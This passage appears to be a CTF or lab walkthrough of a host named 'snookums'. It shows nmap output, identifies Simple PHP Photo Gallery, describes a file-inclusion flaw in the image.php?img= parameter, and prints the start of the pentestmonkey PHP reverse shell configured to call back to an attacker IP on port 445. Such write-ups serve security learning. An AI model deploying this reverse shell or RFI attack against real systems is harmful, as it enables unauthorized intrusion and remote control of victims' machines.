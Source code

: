 ```
|   OS: Windows 6.1 (Samba 4.10.4)
|   Computer name: snookums
|   NetBIOS computer name: SNOOKUMS\x00
|   Domain name: \x00
|   FQDN: snookums
|_  System time: 2023-01-08T05:54:23-05:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan  8 11:55:06 2023 -- 1 IP address (1 host up) scanned in 99.37 seconds
```

Now we know what services are running on those ports. let's start enumeration on port 80 first.

![image](https://user-images.githubusercontent.com/87468669/211201784-b0882f03-2d07-417f-8a71-5c7fe297a58c.png)

As we can see above it is running Simple PHP Photo Gallery cms, let's search for public exploit. 

![image](https://user-images.githubusercontent.com/87468669/211201980-ef32835c-9cdd-4b8c-8006-9b6dd590db85.png)

Found a public exploit which state that the param `/image.php?img=` is vuln to Remote File Inclusion, let's try it out.

![image](https://user-images.githubusercontent.com/87468669/211202049-57fb0f2a-ee40-4fb3-9643-4bb18e8691f0.png)

Tested for LFI and it worked so let's do an RFI attack. created a php pentest monkey🐒 reverse shell.

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.49.79';
$port = 445;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

```